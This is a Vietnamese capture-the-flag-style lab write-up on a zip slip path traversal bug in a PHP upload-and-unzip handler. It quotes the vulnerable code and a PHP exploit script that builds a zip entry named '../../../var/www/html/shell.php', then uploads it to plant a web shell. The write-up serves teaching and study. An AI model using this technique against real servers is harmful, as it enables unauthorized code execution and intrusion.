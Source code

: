 # PATH_TRAVERSAL level 06 

Đây là một trang web cho phép upload một file nén, file này sau đó sẽ được giải nén và được upload tuần tự lên server. Ở đây phần tạo directory riêng có lẽ các bạn đã quen rồi, mình sẽ đi thẳng vào phần xử lý

```
if(isset($_FILES["file"]) ) {
    try {

      $file_name = $_FILES["file"]["name"];
      if(substr($file_name,-4,4) == ".zip")
      {
        $result = _unzip_file_ziparchive($_FILES["file"]["tmp_name"],$dir);
      }
      else
      {
        $newFile = $dir . "/" . $file_name;
        move_uploaded_file($_FILES["file"]["tmp_name"], $newFile);
      }

   } catch(Exception $e) {
        $error = $e->getMessage();
     }
}
```

Phần code trên sẽ kiểm tra xem file upload có phải file zip không, nếu phải thì nó sẽ tiến hành giải nén, nếu không thì sẽ cho upload thẳng lên server. 

Hàm `_unzip_file_ziparchive` dùng để giải nén file đến thư mục đã tạo, sau khi giải nén sẽ thực hiện `file_put_contents` để ghi nội dung file vừa giải nén ra một file.

Trong file `apache2.conf` cũng có đoạn code chặn thực thi php trong thư mục `/usr/upload`, đoán lờ ngợ là mục tiêu của ta là dùng path traversal để ghi ra một directory bên ngoài `/usr/upload`

## Vấn đề

Ở phần code upload file không phải zip, có thể bạn sẽ nghĩ `$_FILES["file"]["name"]` là một untrust data nên ta có thể chèn `../` vào tên file để ghi ra đường dẫn `/var/www/html` như bài 3, tuy nhiên cơ chế upload file của php đã tự động remove đi các kí tự này nên ta sẽ không thể upload file bằng cách này.

![](https://i.imgur.com/AnvIxtv.png)

![](https://i.imgur.com/jnoIJ5g.png)


Vậy giờ ta phải tìm cách để làm sao đó từ việc upload file zip có thể upload được file shell??? 🤔

Khoan nghĩ đã, ta cùng đọc tiếp xem bên trong `_unzip_file_ziparchive` có gì. 


## Ý tưởng

Đầu tiên là gọi method `open` trong class `ZipArchive` để đọc file zip, tiếp là lặp qua hết các file, gặp folder thì bỏ qua. Nếu gặp file thì lấy nội dung của file đó rồi ghi vào đường dẫn đã tạo + tên file
```
if(file_exists(dirname($to . "/" . $info['name']))){ // directory exists
    file_put_contents($to . "/" . $info['name'], $contents);
}
```

Ủa khoan, từ từ nha. Tìm hiểu về `statIndex` trên trang chủ, nó là phương thức để lấy info về một file trong file zip sau đó trả về ở dạng array:

![](https://i.imgur.com/KQsZruE.png)

Nhìn vào ảnh thì thấy nó không bỏ đi ký tự `/`, vậy còn cụm `../` thì sao, thử tạo file zip và nén 1 file với tên `../../../var/www/html/shell.php` sau đó dùng đoạn code này để test:

```
<?php 
$z = new ZipArchive();
$zopen = $z->open("test.zip", ZipArchive::CHECKCONS);
$info = $z->statIndex($i);
var_dump($info);
?>
```

![](https://i.imgur.com/uzPzHxA.png)

À há, không hề bị remove. Đây chính là lỗ hổng zip slip mà ta được học qua, giờ công việc còn lại khá đơn giản, tạo một file php với tên như trên rồi chèn script php vào thôi, cùng thử nha.

## Tấn công

Dùng code php để tạo file zip:

```
<?php

$zip = new ZipArchive();
$filename = "./test.zip";

if ($zip->open($filename, ZipArchive::CREATE)!==TRUE) {
    exit("cannot open <$filename>\n");
}

$zip->addFromString("../../../var/www/html/shell.php", "<?php echo `` ?>");
$zip->close();
?>
```

Chạy file này ta thu được file zip, upload file zip này lên:

![](https://i.imgur.com/GeXgUJ6.png)

Truy cập thử vào `/shell.php`:

![](https://i.imgur.com/2empfo9.png)

Vậy là ta đã xong bài lab!
